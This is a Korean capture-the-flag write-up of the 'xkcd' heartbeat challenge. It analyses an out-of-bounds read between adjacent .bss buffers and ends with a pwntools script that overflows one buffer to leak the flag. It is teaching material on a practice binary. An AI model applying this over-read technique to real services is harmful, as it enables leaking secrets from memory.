








# 취약점 분석




기타 정보
- statically linked, 64 bit
- Heartbeat packet

## 보호기법

- No RELRO
- No Canary found
- NX enabled
- No PIE

## 바이너리 분석

```c
root@e5e68faa5052:/home/Zer0Luck/challenges/xkcd# ./xkcd 
Could not open the flag.

-> 현재 디렉토리에 flag 파일을 생성한 후에 분석을 시도하자
```

## main 함수 분석




- flag 파일의 내용을 읽어와 flag 변수에 집어넣는 것을 확인할 수 있다.



    flag 전역 변수

- flag 변수는 .bss 섹션에 존재하며 전역 변수로 확인된다.
- 사용자의 입력 값을 토대로 특정 조건을 수행하게 되는데 `strtok` 함수를 바탕으로 문자 단위로 짤라 해당 문자열이 포함되는 지를 확인하고 있다.

```c
SERVER, ARE YOU STILL THERE?

IF SO, REPLY "
```


## strtok

- 그후 해당 부분에서 `"` 까지 잘라 해당 문자열의 값을 `globals` 전역 변수에 memcpy를 하는 것을 확인할 수 있다.



## globals 전역 변수

- `globals` 전역 변수는 총 512바이트이며, 같은 .bss 영역이므로 앞에서 선언된 flag와는 0x200차이가 나는 것을 확인할 수있다.



0x200 바이트 차이



## 비교

- strtok `(` `)` 한 내부의 특 정 정수 값을 바탕으로 `__isoc99_sscanf` 함수의 인자로 쓰이는 것을 확인할 수 있다.
- 입력 받은후 `globals` 전역 변수의 길이 값과 `()` 내부에있는 값을 비교하여  `globals` 의 길이가 작을 경우 `()` 입력한 길이 만큼 출력을 한다.
- 만약 더 큰 값을 입력했다면 `Nice Try`를 출력한다.




# 해결 방안 

## 공격

- 어떻게 해당 flag 문자열 값을 읽어올 수 있을까?
- `globals`, `flag` 전역 변수는 같은 .bss 섹션에 존재하며 `globals` 변수를 기준으로 0x200 바이트 차이가 난다.
- 만약에 사용자가 0x200 바이트 이상의 값을 입력하게 된다면 해당 값은 `flag` 전역 변수와 붙게 될 것이고 널값이 존재 하지 않게되 `streln` 은 해당 길이 검사를 할때 널 값을 확인할 수 없어 `flag` 변수의 널 까지 읽게 되어 `globals+flag` 길이를 측적하게 될 것이다.
- 그렇게 되면 `out-of-bound read` 취약점이 발생할 것이다.

```python
from pwn import *
e = ELF("./xkcd")
flag = ''

for i in range(1, 257):
    p = process("./xkcd")
    data = 'SERVER, ARE YOU STILL THERE? IF SO, REPLY "%s" (%d)'%("A"*512, 512+i)
    p.sendline(data)    
    print p.recvline().strip("A")
```



## flag

- flag를 획득할 수 있다.